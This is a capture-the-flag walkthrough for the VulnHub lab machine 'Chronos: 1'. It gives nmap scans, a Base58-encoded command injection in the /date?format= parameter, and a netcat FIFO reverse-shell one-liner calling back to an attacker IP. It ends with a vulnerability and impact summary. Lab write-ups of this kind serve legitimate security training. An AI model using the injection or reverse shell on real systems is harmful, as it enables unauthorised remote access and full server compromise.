:::::::::::::::: page
# Chronos : 1 {#chronos-1 .title}

\

## 

## Chronos : 1

- **[Chronos : 1]{style="color:#060f94;"}** :-

<!-- -->

- Download the machine : <https://www.vulnhub.com/entry/chronos-1,735/>



- Open ova file .
- Then click finish .
- Start the machine .

1.  [Network Scanning]{style="color:#f6d32d;"} :

- Find the machine IP :

::: codebox
    nmap -sn 192.168.31.0/24
:::



- Find available port in the machine :

::: codebox
    nmap -v -p- 192.168.31.3
:::



::: codebox
    nmap -sC -sV -A 192.168.31.3
:::



- This command runs an aggressive scan and uses the http-enum script to
  identify potential CGI directories .

::: codebox
    nmap -v -p 80 -sT -sV -A --script=http-enum.nse 192.168.31.3
:::



1.  [Web Enumeration]{style="color:#f6d32d;"} :

- IP visit in browser : <http://192.168.31.3/>
  <http://192.168.31.3:8000/>

<!-- -->

- After visit the ip then press ctrl+u for view the source code :



- Find hidden url and visit the url in browser :
  <http://chronos.local:8000/date?format=4ugYDuAkScCG5gMcZjEN3mALyG1dD5ZYsiCfWvQ2w9anYGyL>



- Capture request in burp suite and send to repeater :





- Now change the user-agent :

::: codebox
    Chronos
:::



- Now run the command to check command run succesfully or not :

::: codebox
    && ls
:::

- Note : Command only run Base58 encoded value .

Python Script run simple text to base58 encoded value :

::: codebox
    python3 - << EOF
    import base58
    print(base58.b58encode(b"&& ls").decode()) 
    EOF
:::



- Place the encoded value in burp suite :

 Command run successfully run .

1.  [Take reverse shell]{style="color:#f6d32d;"} :

- Command run in base58 encoded value :

::: codebox
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.31.206 443 >/tmp/f
:::

::: codebox
    python3 - << EOF
    import base58
    print(base58.b58encode(b"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.31.206 443 >/tmp/f").decode())
    EOF
:::



- Start the listener :

::: codebox
    nc -nlvp 443
:::

- Place the encoded value in burp suite and send the packet :



- Take a reverse shell :



- [Vulnerability Type]{style="color:#f6d32d;"} :

<!-- -->

- Command Injection (Blind + Encoded) .

<!-- -->

- Command Execution Vulnerability :

<!-- -->

- The web application takes user input and passes it directly into a
  system command without proper validation or sanitization .
- The input is Base58 decoded and then executed inside the backend date
  command .

<!-- -->

- Vulnerable Endpoint :

::: codebox
    /date?format=
:::

- Description :

<!-- -->

- The Chronos application uses the /date?format= parameter to process
  user input .
- This input is Base58 decoded and then used in the following system
  command :

::: codebox
    date +"USER_INPUT"
:::

- [Impact]{style="color:#f6d32d;"} :

<!-- -->

- An attacker can :

<!-- -->

- Execute system commands
- Obtain a reverse shell
- Access sensitive files
- Gain initial access as a low-privileged user (www-data)
- Escalate privileges to root
- Fully compromise the server

<!-- -->

- [Severity]{style="color:#f6d32d;"} :

<!-- -->

- Critical --- Remote Command Execution (Blind RCE) .

<!-- -->

- [In Short Note]{style="color:#f6d32d;"} :

::: codebox
    Vulnerability : Blind Command Injection (Base58 Encoded RCE)
    Endpoint : /date?format=
    Impact : Allows execution of arbitrary system commands via encoded input.
    Result : Attacker can obtain a reverse shell and fully compromise the system.
:::
::::::::::::::::
